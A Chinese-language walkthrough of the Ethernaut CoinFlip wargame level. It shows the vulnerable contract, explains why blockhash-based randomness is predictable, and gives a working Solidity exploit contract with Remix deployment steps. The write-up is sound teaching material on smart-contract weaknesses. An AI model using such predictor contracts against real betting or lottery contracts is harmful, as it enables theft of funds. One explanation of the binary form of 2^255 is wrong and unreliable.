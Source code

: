 # Ethernaut做题笔记(第四题)

## 1.题目要求

这是一个掷硬币的游戏，你需要连续的猜对结果。完成这一关，你需要通过你的超能力来连续猜对十次。

 这可能能帮助到你

- 查看上面的帮助页面，["Beyond the console"](https://ethernaut.openzeppelin.com/help) 部分



## 2.题目代码

```
// SPDX-License-Identifier: MIT
pragma solidity ^0.8.0;

contract CoinFlip {

  uint256 public consecutiveWins;
  uint256 lastHash;
  uint256 FACTOR = 57896044618658097711785492504343953926634992332820282019728792003956564819968;

  constructor() {
    consecutiveWins = 0;
  }

  function flip(bool _guess) public returns (bool) {
    uint256 blockValue = uint256(blockhash(block.number - 1));

    if (lastHash == blockValue) {
      revert();
    }

    lastHash = blockValue;
    uint256 coinFlip = blockValue / FACTOR;
    bool side = coinFlip == 1 ? true : false;

    if (side == _guess) {
      consecutiveWins++;
      return true;
    } else {
      consecutiveWins = 0;
      return false;
    }
  }
}
```



## 3.合约分析

在合约的开头先定义了三个uint256类型的数据——consecutiveWins、lastHash、FACTOR，其中FACTOR被赋予了一个很大的数值，之后查看了一下发现是2^255。

之后定义的CoinFlip为构造函数，在构造函数中将我们的猜对次数初始化为0。

之后的flip函数先定义了一个blockValue，值是前一个区块的hash值转换为uint256类型，block.number为当前的区块数，之后检查lasthash是否等于blockValue，相等则revert，回滚到调用前状态。之后便给lasthash赋值为blockValue，所以lasthash代表的就是上一个区块的hash值。

之后就是产生coinflip，它就是拿来判断硬币翻转的结果的，它是拿blockValue/FACTR，前面也提到FACTOR实际是等于2^255，若换成256的二进制就是最左位是0，右边全是1，而我们的blockValue则是256位的，因为solidity里“/”运算会取整，所以coinflip的值其实就取决于blockValue最高位的值是1还是0，换句话说就是跟它的最高位相等，下面的代码就是简单的判断了。

通过对以上代码的分析我们可以看到硬币翻转的结果其实完全取决于前一个块的hash值，看起来这似乎是随机的，它也确实是随机的，然而事实上它也是可预测的，因为一个区块当然并不只有一个交易，所以我们完全可以先运行一次这个算法，看当前块下得到的coinflip是1还是0然后选择对应的guess，这样就相当于提前看了结果。因为块之间的间隔也只有10s左右，要手工在命令行下完成合约分析中操作还是有点困难，所以我们需要在链上另外部署一个合约来完成这个操作，在部署时可以直接使用remix来部署



## 4.攻击合约

```
pragma solidity ^0.4.18;
contract CoinFlip {
  uint256 public consecutiveWins;
  uint256 lastHash;
  uint256 FACTOR = 57896044618658097711785492504343953926634992332820282019728792003956564819968;

  function CoinFlip() public {
    consecutiveWins = 0;
  }

  function flip(bool _guess) public returns (bool) {
    uint256 blockValue = uint256(block.blockhash(block.number-1));

    if (lastHash == blockValue) {
      revert();
    }

    lastHash = blockValue;
    uint256 coinFlip = blockValue/FACTOR;
    bool side = coinFlip == 1 ? true : false;

    if (side == _guess) {
      consecutiveWins++;
      return true;
    } else {
      consecutiveWins = 0;
      return false;
    }
  }
}

contract exploit {
  CoinFlip expFlip;
  uint256 FACTOR = 57896044618658097711785492504343953926634992332820282019728792003956564819968;

  function exploit(address aimAddr) {
    expFlip = CoinFlip(aimAddr);
  }

  function hack() public {
    uint256 blockValue = uint256(block.blockhash(block.number-1));
    uint256 coinFlip = uint256(uint256(blockValue) / FACTOR);
    bool guess = coinFlip == 1 ? true : false;
    expFlip.flip(guess);
  }
}
```



## 5.攻击流程

先获取一个新实例，之后获取合约的地址以及"consecutiveWins"的值

![i2NCkN.png](https://i.328888.xyz/2023/04/01/i2NCkN.png)



之后在remix中编译攻击合约exploit

![i2NlBV.png](https://i.328888.xyz/2023/04/01/i2NlBV.png)



之后在remix中部署"exploit"合约，这里需要使用上面获取到的合约地址

![i2Nw9d.png](https://i.328888.xyz/2023/04/01/i2Nw9d.png)



之后合约成功部署

![i2NM0o.png](https://i.328888.xyz/2023/04/01/i2NM0o.png)



之后点击"hack"实施攻击（至少需要调用10次）

![i2NPXN.png](https://i.328888.xyz/2023/04/01/i2NPXN.png)



之后再次查看“consecutiveWins”的值，直到大于10时提交即可

![i2Nf9C.png](https://i.328888.xyz/2023/04/01/i2Nf9C.png)



之后提交该实例,完成闯关

![i2NANX.png](https://i.328888.xyz/2023/04/01/i2NANX.png)

![i2N44P.png](https://i.328888.xyz/2023/04/01/i2N44P.png)
